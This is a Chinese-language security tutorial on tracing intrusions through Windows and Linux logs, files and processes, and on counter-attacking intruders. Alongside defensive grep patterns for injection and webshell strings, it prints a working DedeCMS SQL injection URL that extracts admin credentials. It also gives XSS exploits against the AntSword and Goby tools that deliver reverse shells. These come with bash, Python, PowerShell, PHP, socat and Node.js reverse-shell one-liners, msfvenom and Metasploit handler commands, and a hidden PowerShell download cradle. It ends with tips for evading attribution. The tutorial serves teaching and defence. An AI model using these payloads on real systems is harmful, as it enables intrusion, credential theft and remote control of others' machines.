


# 溯源

## windows排查

### 系统日志

```
windows系统日志包含系统日志，安全日志、应用日志等
敏感事件id:
4624 登录成功
4625 登录失败
4720 创建用户
4634 注销成功
4647 用户启动的注销
4672 使用超级用户/管理员用户进行登录
```

```
比如说利用文件上传，上传了一句话木马，此时使用中国蚁剑连接。创建一个隐藏用户。
net user test$ 123456 /add
```

	

```
此时可以查看系统日志进行溯源，通过eventvwr打开。并进行日志的筛选。
```

	

```
通过敏感事件id进行筛选，看看创建了哪些用户
```

	

```
于是可以通过日志筛选，排查出创建哪些用户。
```

	

```
除此之外虽然net user不能直接查看隐藏用户，但是也可以使用windows管理工具进行查看
wmic useraccount get name,SID
```

	

```
webshell还能通过什么方式排查？
（1）文件排查
（2） 进程分析
```

```
比如先说文件排查的思路，首先可以从临时文件目录开始排查，看看是否有可执行文件或者恶意dll等等。如果有怀疑文件，可以标记下来，然后通过webshell查杀工具检测即可。
```

	

	

```
也可以从最近打开文件进行排查
```

	

	

```
除此之外，也可以查看游览器的下载记录来排查
```

```
也可以查看指定攻击日期之后的新增exe文件来进行排查
但是实际运行结果是按照修改日期来查找。
forfiles /m *.exe /d 2024/10/1 /s /c "cmd /c echo @path @fdate @ftime"
```

	

```
进程排查的话有以下方法
（1）查看端口得到PID
netstat -nao | findstr 端口
（2）根据PID查看进程对应的程序名称
tasklist /V | findstr PID
wmic process list brief | findstr PID
（3）得到程序全路径名
wmic process where processid=PID get processid,executablepath,name
（4）杀掉进程，以下方法任选其一。
taskkill /PID 3876 /F
wmic process where name="mysqld.exe" delete
wmic process where processid=3876 call terminate
```

```
比如先查看端口开放情况，比如要分析80端口的进程是哪个，于是发现指定的PID是7636
```

	

```
根据pid去查找进程
```

	

```
并查看该进程的全路径名
```

	

```
如果分析后是恶意进程，那就直接干掉。
```

```
除此之外注册表也能查看一些信息。首先修改权限为完全控制，这样管理员组的成员才能查看到一些敏感的注册表信息，默认是不给查看的。
```

	

```
在该注册表信息下，能查看到所有的用户信息，包括隐藏用户
```

	

```
在这些注册表下，能查看到自启动程序的信息。
```

	

	

```
当然除此之外计划任务也值得排查
```

### web日志排查

```
首先把织梦的目录放到php的根目录下，然后根据指引输入数据库账号密码即可部署该网站。
```

```
使用sql注入获得账号密码
http://192.168.15.115/dedecms/uploads/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\%27%20or%20mid=@`\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`%20limit+0,1),5,6,7,8,9%23@`\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294%20```%20![]
```

	

```
密码是密文md5加密，所以需要使用MD5进行解密，得到明文密码admin
```

	

```
此时我们分析web日志。确实可以发现这个是sql注入的攻击。

这条日执行信息如下：其中200代表回应，由于回应长度是2847，与一般的请求失败不一样，所以是注入成功的。
192.168.15.1 - - [24/Oct/2024:20:26:02 +0800] "GET /dedecms/uploads/plus/recommend.php?action=&aid=1&_FILES[type][tmp_name]=\\%27%20or%20mid=@`\\%27`%20/*!50000union*//*!50000select*/1,2,3,(select%20CONCAT(0x7c,userid,0x7c,pwd)+from+`%23@__admin`%20limit+0,1),5,6,7,8,9%23@`\\%27`+&_FILES[type][name]=1.jpg&_FILES[type][type]=application/octet-stream&_FILES[type][size]=4294%20```%20![] HTTP/1.1" 200 2847
```

	

```
攻击机win10使用sqlmap扫描win7的web网站
sqlmap.py -u “http://192.168.15.115/dedecms/uploads/plus/recommend.php?_FILES[type][tmp_name]=1” --level 3
```

```
从日志上查看，可以发现大量的sql关键字，可以发现是使用工具进行sqlmap检测。
```

	

```
通过sql注入得到账号密码进行登陆，并上传一句话木马。
```

	

	

```
攻击机192.168.15.1，通过日志可以发现查看到上传了一个木马文件
```

	

```
使用中国蚁剑连接并执行命令
连接的url是http://192.168.15.115/dedecms/uploads/uploads/shell.php
```

	

```
查看日志，其中包含很多关于这个文件的post请求，可以说明是传递命令过去。
```

	

```
web日志存放路径
windows默认路径：在安装目录下的logs文件夹下
tomcat日志分为三个日志。
catalina.out、localhost、manager、localhost_access_log4种格式日志。
apache日志、nginx日志、IIS日志主要是以下两种日志
access_log和error_log
```

```
工具篇
#### 病毒分析
PCHunter：http://www.xuetr.com
火绒剑：https://www.huorong.cn
Process Explorer：https://docs.microsoft.com/zh-cn/sysinternals/downloads/process-explorer
processhacker：https://processhacker.sourceforge.io/downloads.php
#### 病毒查杀
卡巴斯基：http://devbuilds.kaspersky-labs.com/devbuilds/KVRT/latest/full/KVRT.exe （推荐理由：绿色版、最新病毒库）
大蜘蛛：http://free.drweb.ru/download+cureit+free
```

```
web日志分析工具
在线工具：https://tilipa.zlsam.com/#/tool?id=199&name=%E6%97%A5%E5%BF%97%E5%88%86%E6%9E%90%E5%B7%A5%E5%85%B7
```

	

## Linux排查

### web日志分析

```
由于操作系统的不同，Windows是图形化的界面，而Linux是命令行的界面，在Linux系统中，如果我们要去入侵排查，筛选，也只能用命令去执行。
在排查Linux系统时，可以多注意当天访问次数最多的一个IP，因为攻击者在攻击网站时，会进行漏洞扫描等等会产生大量连接的行为，因此往往当天访问次数最多的IP很有可能就是攻击者的IP

实验环境，如果搭建不了，那就把windows下的php的织梦访问日志复制到linux下来分析日志。
```

```
cut -d- -f 1 access.log|uniq -c | sort -rn | head -20 //列出当天访问次数最多的IP命令
```

	

```
awk '{++S[$1]}END {for (a in S) print a,S[a]}' access.log     //查看每一个IP访问了多少个页面
```

	

```
grep "/index.php" access.log |wc -l      //看某一个页面被访问的次数
```

	

```
grep 192.168.15.1 access.log| awk '{print $1,$7}' //查看某一个IP访问了哪些页面
```

	

```
grep -E -i "select" access.log				//SQL注入检攻击检测
```

	

```
grep -E -i " (S)%26%23x3c%3B(S+)%3E|(S)%26%23x3c%3B(S+)%2F%3E|(S+)&#x3c;(S+)>|(S+)&#x3c;(S+)/" access.log	//xss跨站脚本攻击检测
```

```
grep -E -i "ping%20-c%20|ls%20|cat%20|%20pwd|net user" access.log //命令注入攻击攻击检测
```

```
grep -E -i "eval|%eval|%execute|%3binsert|%20makewebtaski|/1.asp|/1.jsp|/1.php|/1.aspx%if" access.log		 //网站被植入webshell后门检测
```

	

```
grep -E -i "login" access.log | grep -E -i "POST" | grep -E -i "200" //暴力破解账号攻击检测
```

	

### 文件日志分析

```
查找24小时内被修改的php文件，当然想要查询其他类型的文件大家可以自己替换
find -mtime 0 -name "*.php"
```

		

```
//查找一句话木马文件
find -type f -name "*.php" | xargs grep 'eval' | more
```

	

```
//查找今天新增加的文件
find -ctime 0 -name "*.php"
-1 代表前一天到现在
-2 代表前二天到现在
以此类推
```

	

```
 //查找被赋予777权限的php文件
find -iname "*.php" -perm 777
```

	

```
//查找root所属组的文件
find -user root
```

	

```
//查找垃圾文件
find -nouser
```

```
//查找某一天的访问记录有多少条
awk '{print substr($4,2,11)}' access.log |sort | uniq -c
```

	

```
//查找空口令账号
awk -F:'length($2)==0 {print $1}' /etc/shadow
```

### 系统日志分析

```
Linux系统中系统日志具体位置及作用如下图所示
```

	

```
cat /var/log/secure    // Centos系统
cat /var/log/auth      //Ubuntu系统
一般来说对应的系统有对应的日志存放位置，如果不知道对应日志存放的位置，可以运行下面这条命令
vim /etc/rsyslog.conf //查看日志存放位置
```

```
//密码验证失败
grep "Failed password" /var/log/auth.log | wc -l
//密码认证成功
grep "Accepted password for" /var/log/secure
```

	

	

```
//查看每个ip登录失败的次数
grep "Failed password" /var/log/secure | awk '{if (NF==16 {c[$13]++}else{c[$11]++}}END{for(u in c)print u,c[u]}' | sort -k 2 -nr | head
```

```
//登录失败的次数
grep "Failed password" /var/log/secure | awk '{if (NF==16){c[$11]++}else{c[$9]++}}END{for(u in c)print u,c[u]}' | sort -k 2 -nr | head
```

```
//查看登录失败的记录
lastb
```

	

```
//查看登录成功的记录
last
```

	

```
etc/passwd 是我们在排查Linux系统异常账号时需要去排查的，在排查异常账号时要注意异常账号的uid是不是0，因为攻击者常常会把新增加的账号uid设为0，以此来获得同root用户相同的权限，同时nologin也是我们需要重点排查的一个地方，nologin代表用户从来没有登陆过，如果出现了其他的，需要注意一下
```

```
//可以查看文件修改时间，如果文件被修改过，什么时候新增加了用户，可以从这里看出来
ls -l /etc/passwd
```

	

```
//查看权限为特殊权限的用户
awk -F: '$3==0{print $1}' /etc/passwd 
```

	

### 进程分析

```
//查找网络连接的状态
netstat -napt
```

	

```
//查看系统占用程序，如果是占用非常高的程序，有可能遭受到了挖矿木
top
```

	

```
//查找恶意程序的路径
ls -alt /proc/PID	
```

```
//杀死恶意程序
kill -9 PID
```

```
假如某些恶意程序打开或者关联了其他恶意程序，我们可以使用以下命令查看
lsof -p PID
```

	

```
我们在进行异常经常排查时，有些恶意进程可能是被攻击者做了隐藏的，我们可以使用以下命令查看被攻击者隐藏的进程
ps -ef|awk '{print}'| sort -n |uniq >1
ls /proc| sort -n |uniq >2
```

```
//查看隐藏计划任务
cat /var/spool/cron/crontabs/root
crontab -u root -l
cat /etc/rc.d/rc.local
ls /etc/rc3.d
```

## 溯源真实身份

### 攻击源的获取

```
1、获取哪些数据？
我们溯源需要获取的数据有攻击者ip、域名、后门、攻击组件、webshell等等
2、通过什么方式去获取？
我们可以通过蜜罐、安全设备、钓鱼邮件、文件日志进程分析等操作去一步步分析获取
3、什么是蜜罐？
蜜罐的概念：模拟各种常见的应用服务，诱导攻击者攻击，从而记录攻击者的入侵行为，获取攻击者的主机信息、浏览器信息、甚至是真实 IP及社交信息。
蜜罐溯源的常见两种方式：
1、网站上插入特定的js文件
2、网站上显示需要下载某插件
```

```
蜜罐的分类：
1、低交互蜜罐
模拟系统 能够获取信息比较少但是安全
2、中交互蜜罐
比较真实的模拟系统， 比较安全
3、高交互蜜罐
真实的主机， 获取的信息比较多，配置难，维护难，威胁高，不安全
```

```
4、市面上常见的蜜罐系统
Hfish 开源免费的低交互蜜罐
```

	

```
5、安全设备主要分为以下三类
1、全流量平台
2、waf
3、EDR
全流量平台态势感知：全面感知网络安全威胁态势、洞悉网络和应用运行的健康状态、通过全流量分析技术实现完整的网络攻击溯源取证。
waf：web应用防火墙，专注于网站及Web应用系统的应用层安全防护
EDR终端安全防护：主动发现来自外部或内部的各类安全威胁。同时，基于端点的背景数据、恶意软件行为以及整体的高级威胁的生命周期的角度进行全面的检测和响应。
```

```
6、钓鱼邮件
我们在做蓝队时，常常会遇到红队发起的钓鱼服务。
1、通过钓鱼邮件获取到哪些信息？
发件人的id，IP地址，钓鱼的服务器，恶意样本，注册信息等等。
2、溯源可以从哪些地方入手？
我们可以对获取到的钓鱼服务器IP，然后我们可以对这台服务器发起渗透拿下权限，进一步获取信息，如果我们发现了对方留下的恶意文件，我们可以通过某些平台的在线云去分析恶意文件的 C2地址，以获取对方服务器的IP。
```

### 溯源的方法

```
假如我们在攻击溯源中得到了对方的IP，又通过对方的IP反查到了对方的域名，那我们是不是就可以直接通过whois查询直接得到对方的手机号，注册资产等等大量的注册网站的信息，这些信息很可能包含了对方的手机号，邮箱信息等。
```

```
常用的威胁情报平台
https://www.secpulse.com/archives/173479.html
https://www.virustotal.com/　　//VirusTotal
https://x.threatbook.cn/　　//微步在线-微步情报社区
https://ti.qianxin.com/　　//奇安信威胁情报
https://ti.360.net/　　//360威胁情报中心
https://www.venuseye.com.cn/　　//启明星辰威胁情报
https://redqueen.tj-un.com　　//天际友盟REDQUEE安全智能服务平台
```

```
我们这里拿微步在线-微步情报社区作为例子
```

	

```
IP定位：在我们得到了对方的IP后，如果我们需要获得攻击者更多的信息，我们可以去使用以下这些平台
https://www.chaipip.com/　　高精度IP地址查询-查IP
https://www.opengps.cn/Data/IP/ipplus.aspx　　高精度IP定位
https://www.ipip.net/ip.html　　ip反查
http://ip.yqie.com/　　ip地址反向查询
http://qd.yyimg.com/act/index/id/　　百度ID反查
https://www.reg007.com/　　注册网站反查
https://ip.rtbasia.com/   tbasia（IP查询）
https://www.ipplus360.com/  ipplus360（IP查询）
https://tool.lu/ip/  IP地址查询在线工具
```

```
假如我们想要知道对方攻击者的地理位置，我们可以通过IP定位去查询
```

	

	

```
恶意样本
我这里给大家提供一些在线云沙箱的地址
https://ata.360.cn/detection　　360沙箱云
https://s.threatbook.cn/　　微步云沙箱
https://www.virustotal.com/gui/home/upload　　VirusTotal平台
https://www.maldun.com/submit/submit_file/　　魔盾安全分析平台
https://app.any.run/　　Any.Run交互式恶意软件分析平
https://habo.qq.com/　　腾讯哈勃系统
https://mac-cloud.riskivy.com　　FreeBuf × 漏洞盒子「大圣云沙箱

我们可以通过向这些平台上传文件来确定这是不是一个恶意文件，同时也可以得到很多的信息，如果这个文件是一个远控的恶意木马，那我们就会得到一个c2地址，c2地址如果是一个反向连接的IP地址，那我们是不是可以对这个c2地址做一个溯源
```

```
使用微步云沙箱，上传后门文件进行检测。
```

	

```
检测出是cs的后门文件。
```

	

### 利用AntSword RCE进行溯源反制黑客

```
比如蚁剑的v2.0.7版本，存在一个xss漏洞。
现在实验假设在一个情况下，我们的网站被黑客入侵了，然后我们通过分析web日志，安全设备等等，通过这些设备呢？我们是可以查看到攻击者的一个指纹信息，所以我们知道了攻击者所使用的中国蚁剑版本就是v2.0.7版本，那我们该怎么利用这个漏洞得到对方的shell呢？
```

```
首先我们向目标服务器win7的网站目录下上传一句话木马
```

	

```
然后我们使用v2.0.7版本的中国蚁剑去连接
```

	

```
一、漏洞原理
由于蚁剑使用是html解析，并没有进行 XSS 保护过滤，html内容被解析了，导致xss漏洞。
```

```
二、复现
更改对方上传的webshell为
<?php header('HTTP/1.1 500 '); ?>
```

	

```
当我们第二次去点击连接网站时，就会弹出xss窗口。
但是我们去利用这个漏洞，就不仅仅是弹一个窗口而已，而是要拿到入侵者的权限，拿到对方主机的控制权
```

	

```
三、反制
反弹shell:
建立一个控制目标的简易管道，（攻击者再代码中指定服务端，让受害者主机主动连接攻击者的程序）可以通过这个管道连接成功以后去执行系统命令而建立这个管道有非常多种方式
比如利用Linux中的bash 或者python powershell php nodejs，以下是一些具体反弹shell的格式

bash -i >& /dev/tcp/192.168.35.152/7777 0>&1

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

powershell IEX (New-Object System.Net.Webclient).DownloadString(‘http://192.168.201.129/powercat.ps1‘); powercat -c 192.168.201.129 -p 9999 -e cmd

php -r '$sock=fsockopen("192.168.35.152",7777);exec("/bin/sh -i <&3 >&3 2>&3");'

socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.35.152:7777
```

```
那这个场景放在我们本文所讲述的技术中的应用位置在哪呢？我们v2.0.7的蚁剑不是有一个xss弹窗漏洞，如果我们把弹窗的内容改为我们反弹连接的内容比如使用一个反弹shell的命令，然后我们在本地的服务器求去进行一个端口监听，当对方使用蚁剑连接我们的网站时，就会触发xss漏洞，而这个漏洞所执行的代码又被我们修改成了反弹的shell代码，那这样我们是不是就得到入侵者主机的shell。

蚁剑支持nodejs脚本，因此可以基于nodejs实现反弹shell
```

```
javascrpt是脚本语言 也就是通常情况下用在浏览器，嵌入到HTML网页中，由浏览器一边解释一边执行。要想在服务器上运行js需要运行环境。nodejs是一个基于Chrome V8引擎的JavaScript运行环境，可以让JavaScript运行在服务端的开发平台非浏览器上运行，让脚本语言JavaScript能作为服务器语言。
```

```
这个是base64加解密的网站
http://www.jsons.cn/base64/
```

```
将这段代码进行base64
var net = require("net"), sh = require("child_process").exec("cmd.exe");
var client = new net.Socket();
client.connect(10086, "192.168.15.141", function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

	

```
复制加密的内容到代码，然后把代码放入shell.php进行反制。
<?PHP
 header("HTTP/1.1 500 Not \");
 ?>
```

	

```
在kali机器(192.168.15.141)上监听端口,等待反弹shell.
nc -lvvp 10086
```

	

```
当黑客点击测试连接，就会触发反弹shell到kali机器。从而实现反制。
```

	

```
反弹shell成功。
```

	

```
二、msf反弹shell
MSF生成 node.js木马：
msfvenom -p nodejs/shell_reverse_tcp LHOST=192.168.15.141 LPORT=10087 -f raw -o payload.js
```

	

```
cat payload.js
```

	

```
查看后，同样将代码加密以后替换掉webshell中内容
```

		

```
将代码放入到shell.php中。
<?PHP
 header("HTTP/1.1 500 Not \");
 ?>

```

	

```
MSF开启监听
use exploit/multi/handler
set payload nodejs/shell_reverse_tcp
set lhost 192.168.15.141
set lport 10087
exploit 
```

```
当黑客点击测试连接。
```

	

```
即可连接，但是这一步没复现成功。
```

	

### 利用GoBy RCE进行溯源反制

```
如果，我们要对工具去进行一个反制的话，可以从两个思路去展开，一种是命令注入，一种就是xss，那么我们今天所讲的goby就是利用xss去得到RCE。
像我们平时去使用goby进行一个漏洞扫描的时候，由于goby的程序都是写好的，所展示给我们界面都是固定的，能够提供给我们交互的地方很少。
我所使用的goby版本号是1.8.230,所展示给我们的网站扫出来的信息都是程序写死的，这样我们很难去利用xss漏洞去反制
```

```
首先打开goby，进行简单的扫描。
```

	

	

```
注意:如果web网站打开防火墙，那么很难使用goby扫描出端口。这里是关掉防火墙了。
```

		

```
但是goby中在漏洞扫描完成后还存在这一个Aseet详情页面
```

	

```
在goby完成对目标机器的扫描后，我们点击扫描的项目，他会带我们进入详情页面，在这个详情页面我们可以看到被扫描的机器很多的信息，比如开放端口、服务、PHP版本号等等

实际上在goby中还是存在少量可以交互的地方的
不知道大家注意到这里没有，正常情况下来讲，goby扫到的PHP后面都会默认跟上版本号，但是我们这里不仅没有像下面的Aapche服务一样显示版本号，而且还出现了/)>几个不明的字符
```

	

```
实际上就是我把网站中被goby扫描到的文件跟改了，所以导致了这里出现了变化，那这也从侧面证明了这里是可以被我们控制的，可以交互执行的
当goby再扫描网站时，会去扫描网站下的目录，再根据网站目录下的文件去得到一些网站的信息，我们扫到的php服务就是根据被扫的文件得到.
被扫描网站的目录：
```

	

```
我们将网站目录下的php文件修改为以下代码，看看会发生些什么
<?php
 header("X-Powered-By: PHP/<h1>ddff</h1>");
?>
```

```
然后这里我们在通过goby去重新对网站进行一个扫描，这一步要注意，一定要重启goby，不然goby会缓存我们扫描网站的数据，这样你重新扫也只能得到同样的结果.
大家注意看这里扫描的结果是不是和之前显示的不一样了呢
```

	

```
当然在这里我们要点击这个之后代码才会被触发，实际过程中我们需要诱导攻击者去点击这些可以交互的地方，我这里可以给大家提供一个思路，我们可以在环境中部署一个蜜罐，那蜜罐是不是会模拟很多可以攻击的服务诱导攻击者攻击，在goby扫描过程中，攻击者看到那么多的服务会不会去疯狂点击和查看扫到了些什么？大家这里可以联想一下自己在使用漏洞扫描工具时的样子.
我们这里点进去之后代码是不是执行了，那这里就是一个很明显的可以用的xss漏洞
```


```
于是使用cs构造js的恶意后门文件。
```

​		

	

```
生成后，将里面的内容复制下来
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://192.168.15.141:80/a'))"
```

	

```
然后我们将网站根目录下写入1.js文件，内容如下
(function(){
    require('child_process').exec('powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring(\'http://192.168.15.141:80/a\'))"');
})();
```

```
网站根目录下的index.php写入内容如下
<?php 
header("X-Powered-By: PHP/");
?>
```

```
当goby扫描的时候在asset处点击，就会触发js脚本执行，使得cs获得黑客的shell.
```

	

```
理论是这样，但这里没有复现成功。
```

	

## 如何防止被溯源

```
主机加固
1、不要保存任何可以用来分析个人或公司身份的特征的文件
2、打全补丁，开放必要端口
3、安装有效杀毒软件
4、不连接特征明显的热点
5、不要使用可能识别特征的用户名
6、不登录任何社交软件
7、保持浏览器中不会储存任何个人相关信息
8、停用摄像头等设备
```

```
特征隐藏
1、隐藏工具特征
2、隐藏交互特征
3、隐藏流量特征
```

```
识别陷阱
蜜罐的识别
1、是否存在大量请求其他域资源;
2、是否对于各大社交网站发送请求；
3、是否存在大量请求资源报错,克隆其他站时没有修改完成;
4、是否存在⾮常多漏洞的站点
5、获取到PC机器后，PC机器⽤户⻓时间划⽔摸⻥;
6、从目标获取的文件需要在沙箱或断网虚拟机运行，避免被反制;
```
